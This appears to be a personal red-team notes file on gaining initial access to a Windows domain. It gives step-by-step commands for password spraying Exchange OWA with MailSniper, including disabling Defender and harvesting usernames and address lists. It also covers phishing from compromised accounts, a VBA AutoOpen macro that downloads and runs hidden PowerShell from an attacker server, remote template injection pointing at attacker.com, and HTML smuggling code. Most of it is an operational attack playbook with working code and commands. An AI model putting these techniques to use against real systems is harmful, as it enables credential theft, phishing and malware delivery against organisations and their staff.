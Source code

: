 # Initial Compromise Notes

## Password Spraying
I have a love/hate relationship with password spraying. Anyways, tools like [MailSniper](https://github.com/dafthack/MailSniper) or [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) can help.

Import MailSniper, turn off defenders real-time protection for this.
```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

Enumerate NetBIOS name of target domain with Invoke-DomainHarvestOWA from MailSniper. I find you can also enumerate this with nmap-ing smb of devices on a domain. Although that's more from doing labs so probably more usefull for ctf's, don't recommend because port scanning is really loud.
```
Invoke-DomainHarvestOWA -ExchHostname <domain>
```

Not talked about yet, but check the websites for possible users or social media, add their names into an arbitrary file like names.txt for us to use a tool like namemash.py that turns this name into possible username permutations. 
```
./namemash.py names.txt > possible.txt
```

Now we can use Invoke-UsernameHarvestOWA to enumerate for possible users using this possible.txt and the NetBIOS we enumerated from before.
```
Invoke-UsernameHarvestOWA -ExchHostname <email subdomain> -Domain <domain> -UserList possible.txt -OutFile valid.txt
```

Now password spray, you can get easy to test passwords from places like [weakpasswords.net](https://weakpasswords.net/)
```
Invoke-PasswordSprayOWA -ExchHostname <email subdomain> -userList valid.txt -Password <password>
```

MailSniper has other functions like downloading the glabal address list
```
Get-GlobalAddressList -ExchHostname <mail subdomain> -UserName <domain\poppedUser -Password <password found> -OutFile gal.txt
```

## internal phishing
With user creds you could just go to that email subdomain through a browser and logging in and sending phishing emails like that. 

## Initial Access Payloads
You can attach a payload in the email or send a url where to download the malicious file. MOTW exists for any files downloaded via a browser which makes the file look untrusted. 

## VBA Macros
We can use VBA Macros to exist code using microsoft office. Open word on the attacker desktop go to View>Macros>Create. Change the "Macros in" field from "All active templates and documents" to "Document 1". Give the macros a name and save it. To have it execute on open use AutoOpen, in the below it will download a powershell payload from beacon that we set up. The /a is the powershell payload URI, and the attackerserver is the teamserver we are using to host this. You can check beacon payloads in command and control to review this.  
```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://<attackerserver>/a'))"""

End Sub
```
Remove username of your system from being embedded in document

*File>Info>Inspect Document>Inspect Document*
Click *Inspect* > *Remove All* next to *Document Properties and Personal Information* 

Next save the word document with the macro as a *Word 97-2003(.doc)*

Then upload to teamserver by going to *Site management > Host File*

Attach the file in an email and send to targets. A user will need to click *Enable Editing* and then *Enable Content* to execute the macro.

If executed you will receive a new beacon in Cobalt Strike.

## Remote Template Injection
Remote template injection is where you trick a user to open a document that downloads a malicious template. 

Steps to follow
1. Save the malicious macro file as a *Word 97-2003(.dot) file as your injection template
2. Host this template in teamserver Cobalt Strike like above
3. Create a new document from the blank template located in *C:\Users\Attacker\Documents\Custom Office Templates* as a .docx file.
4. Right click this file in file explorer and select *7-zip>Open archive*
5. Navigate to *word>_rels*
6. Right click to Open and Edit the settings.xml.rels
7. Scroll until you find the *Target* entry and change this to your teamservers malicious .dot file
   ```
   Target="http://attacker.com/template.dot"
   ```
8. Save this and email the target the document

A lot of this can be done with this the [remoteinjector](https://github.com/JohnWoodman/remoteinjector) tool

## HTML Smuggling
A technique to use JavaScript to hide files from content fiters.

Example HTML smuggling code
```
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```
This still gets the MOTW on it as it was downloaded over the internet
